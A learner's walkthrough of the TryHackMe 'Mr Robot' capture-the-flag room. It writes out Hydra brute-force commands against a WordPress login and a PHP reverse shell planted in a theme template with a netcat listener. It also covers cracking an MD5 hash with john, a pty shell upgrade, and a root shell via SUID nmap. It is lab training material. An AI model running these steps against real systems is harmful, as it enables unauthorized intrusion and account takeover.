



Challenge Infomation
Challenge Name: Mr Robot CTF
Room URL: https://tryhackme.com/r/room/mrrobot
Difficulty Level: Medium
Category: Web Exploitation, Network Security
Author: Ben & TryHackMe
Date Completed: December 15, 2025
Description: Based on the Mr. Robot show, can you root this box?
Introduction
This is a custom CTF room inspired by the Mr. Robot TV show, requiring enumeration, brute-forcing, and privilege escalation.
Prerequisites
- Nmap
- GoBuster
- Hydra
Steps To Solve The Challenge
1. Reconnaissance
1.1: Intial Scan
I used Nmap to scan the websites to find ports that are open
command: nmap 10.10.159.27
Findings:
Found that services like ssh http https at port 22 80 443 respectively

Step 1.2: Detailed Service Enumeration
I tried /robot.txt path and found 2 entries
Findings:
User-agent: *
fsocity.dic
key-1-of-3.txtFound the key 1 of 3 after navigating inside http://10.10.159.27/key-1-of-3.txt path
***Key: 0*****************************9***
futher i took a look insdie fsocity.dic file and apperared to list of usernames
HTTP Service: Used gobuster to find directories.
Command: gobuster dir -u 10.10.159.27 -w /usr/share/seclists/Discovery/Web-Content/common.txt -q -o gobuster-common.txt

Findings: Discovered /wp-login directory.
I found that it is a wordpress website and using the fsocity.dic dictionary i tried brute forcing the login csredentials
Step 1.3: Capturing Login Request
I'm using Burp Suite to capture login request in the /wp-login page using a failed login.
findings:

I need only the following line in the result for the acutal Brute Force.
log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.159.27%2Fwp-admin%2F&testcookie=1
this shows me how the username and passwords are transmitted to the server.
I also found some Error Box named ERROR: Invalid username. after entering admin for username and password.
These kind of Error is helpful in pentesting.
2. Exploitation
Step 2.1: Brute Force
Now to brute force this login i'm using hydra
To start the brute force im using fsocity.dic for username and a static password test to find the username of the login page.
command: hydra -L fsocity.dic -p test 10.10.159.27 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
Findings:
Now from the result i know that Elliot is the username of the login page.
Now coming to the login page and entering username as Elliot, i see a ERROR box named ERROR: The password you entered for the username Elliot is incorrect.
with this result i found that i can u hydra again to find the password
command: hydra -l Elliot -P fsocity.dic 10.10.159.27 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
Findings:
I found that the password of the login is ER28-0652 . u know if u watch the mr.robot series its acutally elliots employee id at AllSafe.
After logining in in wordpress im inside wordpress dashboard under the user Elliot Alderson
3. Post-Exploitation
Step 3.1: PHP Reverse Shell
now that i got access to the admin, I'm gonna the editor option under Appearance section
So, for the php reverse shell to work without too much traffics i'm using the Archive template for better result.
To get a connection from the target machine i started a listener at port 53
command: rlwrap nc -lvnp 53
I'm using rlwrap because it allows me to edit the upcoming connections.
while netcat is watiing for the connection to estabilish i'm sourcing PHP Reverse Shell Script from a github repository called pentestmonkey.
PHP-Reverse-Shell-pentestmonkey
I copied the code and pasted it inside the archive.php template in which i changed the host ip address and the port i want to listen from.
To establish a connection with netcat im firing up archive.php site http://10.10.159.27/wp-content/themes/twentyfifteen/archive.php
once i started the site, at my terminal my listener had estabished a connection to the server
After getting access to the target machine i browers thourgh the folders and found two entires key-2-of-3.txt and password.raw-md5
i found the next key inside /robot/key-2-of-3.txt, but when tried to open key-2-of-3.txt using cat command i was denied from it.
To check why this happend, i used ls -lsa to check in which user the file is accessiable, and found it was under a user named robot
but i found robot:c3fcd3d76192e4007dfb496cca67e13b inside password.raw-md5 which was some kind of password for robot user in RAW-MD5 hash.
Now to crack this hash i used a password cracking package call john or also know as john the ripper to crack the RAW-MD5 hash.
Step 3.1: Decrypting Hash
Command: john md5.hash --wordlist=fsocity.dic --format=RAW-MD5
Findings:
So i found that the password inside the RAW-MD5 hash was abcdefghijklmnopqrstuvwxyz
4. Shell Upgrade
Step 4.1:
Now i'm getting back to the terminal to switch to the robot user.
So to use su command the shell should be fully interactive, i'm using a python script to upgrade the dumby shell to interactive shell.
command: python3 -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$
Step 4.2:
Now i'm change from daemon to robot user with the password we found in the hash.
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$ whoami
whoami
robot
I found the next key key-2-of-3 inside /home/robot/key-2-of-3.txt
***Key: 8*****************************9***
5. Root Privilage Escalation
Step 5.1:
To find the root user i'm searching for binary bin in order to spawn a shell
command: find / -perm +6000 2>/dev/null | grep '/bin/'

Step 5.2:
Now i can see a binary bin for Nmap which i can use to spawn a interactive shell.
To excute it im using nmap interactive method
command: /usr/local/bin/nmap --interactive
I found the final key key-3-of-3 under /root/key-3-of-3.txt
***Key: 0*****************************4***